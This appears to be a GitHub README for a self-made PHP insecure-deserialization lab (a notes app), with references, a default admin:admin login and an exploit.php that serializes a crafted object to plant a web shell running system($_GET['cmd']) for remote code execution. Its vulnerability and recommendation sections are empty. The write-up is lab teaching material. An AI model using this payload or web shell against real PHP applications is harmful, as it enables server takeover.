 # InsecureDeserialization-lab2

### 1-Description
```
In this lab i have decided to create an exploitable app that use php serialize() / unserialize()
and the magic method __destruct() magic method which is called whenever an object is destroyed.
```
### 2-Ressoources
```
https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection

https://www.php.net/manual/en/function.unserialize.php

https://securitycafe.ro/2015/01/05/understanding-php-object-injection
```

### 3-SafeNote Kepper
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/bdf7e33f-2a43-4e4f-ad73-1024b353b22f)

Login as admin!!!
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/73adb498-d9cc-4448-9314-e0231bc63db6)

```
admin:admin
```
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/0117bedf-4dce-474a-ad74-b9e1dbde2d42)
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/6552f369-ba38-464c-8037-d11a02118f8c)
Notes Endpoint!!!
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/4ddab522-b569-4425-92cf-83d2d44b6f38)
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/a24a70e1-fbd0-48fa-9236-037b978a4bf3)
### 4-Vulnerability
```

```

### 5-Exploitation
exploit.php!!!
```php
<?php
class User{
    public $name = "admin";
    public $level = "";
    public $filename = "shell.php";
    public $message = "<?php system(\$_GET['cmd']); ?>";
}
//admin 
$admin = new User();
echo serialize($admin);
echo "\n";
$Token1 = base64_encode(serialize($admin));
echo $Token1;
?>
```
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/ee403d0c-f105-4679-9009-b83f0d708ab7)
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/0eba3886-696c-48b6-97e0-31e6befc6c2d)
RCE!!!
![image](https://github.com/gil01karougbe/InsecureDeserialization-lab2/assets/98090770/07032ba2-6d44-4b86-abd9-c1837a1c4e6b)
### 6-Recommendations
```

```

### 7-Labs
```
Debug(Tryhackme)
mKingdom(Tryhackme)
```
